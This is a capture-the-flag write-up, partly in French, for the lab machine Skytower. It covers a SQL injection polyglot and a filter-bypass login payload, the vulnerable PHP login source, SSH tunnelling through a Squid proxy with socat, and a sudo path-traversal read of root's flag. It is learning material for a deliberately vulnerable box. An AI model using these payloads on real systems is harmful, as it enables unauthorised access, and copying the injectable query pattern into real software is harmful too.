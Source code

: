 # Skytower


Skytower is an intermediate level machine

What I learned:
+ SQLi simple filter
+ HTTP Proxying for ssh
+ ssh commands


## In brief

- Detect SQLi with ' or 5s delay polyglot
- Exploit SQLi with || and # 


## Nmap

````
nmap 192.168.56.1/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-19 06:00 GMT
Nmap scan report for 192.168.56.101
Host is up (0.00014s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE
22/tcp   filtered ssh
80/tcp   open     http
3128/tcp open     squid-http
````

## 80 : Login/password  SQLi

![login](skytower_login.jpg)

Detecter la sqli avec ' ou un polyglot
````
a/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
````

On devine que "SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT" sont filtrés
On utilise || à la place du OR 
````
a'   || 1=1;  #
````

On obtinet un login/pawwd ssh
Se logguer en ssh à travers le proxy HTTP via CONNECT  grace à socat 
Lancer une commande /bi/bash via ssh
Recupérer les access bdd dans la page php
Recupérer les credentials dans la bdd
sudo



cat /var/www/log*
<?php
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
if($db->connect_errno > 0){ die('Unable to connect to database [' . $db->connect_error . ']'); }

$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT");
$email = str_ireplace($sqlinjection, "", $_POST['email']);
$password = str_ireplace($sqlinjection, "", $_POST['password']);

$sql= "SELECT * FROM login where email='".$email."' and password='".$password."';";
$result = $db->query($sql);
if(!$result)
    die('There was an error running the query [' . $db->error . ']');
if($result->num_rows==0)
    die('<br>Login Failed</br>');

$row = $result->fetch_assoc();

echo "<HTML>";
echo '
      <div style="height:100%; width:100%;background-image:url(\'background.jpg\');
                                background-size:100%;
                                background-position:50% 50%;
                                background-repeat:no-repeat;">
      <div style="
		  padding-right:8px;  
      	  	  padding-left:10px; 
		  padding-top: 10px;  
      		  padding-bottom: 10px;  
                  background-color:white;     
                  border-color: #000000;
                  border-width: 5px;
                  border-style: solid;
                  width: 400px;
                  height:430px;
                  position:absolute;
                  top:50%;
                  left:50%;
                  margin-top:-215px; /* this is half the height of your div*/  
                  margin-left:-200px;
                                ">
	';
echo "<br><strong><font size=4>Welcome ".$row["email"]."</font><br /> </br></strong>";
echo "As you may know, SkyTech has ceased all international operations.<br><br> To all our long term employees, we wish to convey our thanks for your dedication and hard work.<br><br><strong>Unfortunately, all international contracts, including yours have been terminated.</strong><br><br> The remainder of your contract and retirement fund, <strong>$2</strong> ,has been payed out in full to a secure account.  For security reasons, you must login to the SkyTech server via SSH to access the account details.<br><br><strong>Username: ".explode("@",$row["email"])[0]."</strong><br><strong>Password: ".$row["password"]."</strong>";
echo " <br><br> We wish you the best of luck in your future endeavors. <br> </div> </div>";
echo "</HTML>"

?>






Username: john
Password: hereisjohn

socat TCP-LISTEN:9999,reuseaddr,fork PROXY:192.168.1.84:127.0.0.1:22,proxyport=3128
ssh john@locahost -p 9999
exit en fin de .bashrc 

ssh john@127.0.0.1 -p 9999 /bin/bash



dump la bdd pour trouver les pswd de xx et sara 



sara même blague du exit ds .bashrc 





$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ 
sara@SkyTower:~$ sudo /bin/ls /accounts/../../root
flag.txt
sara@SkyTower:~$ sudo /bin/cat /accounts/../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower



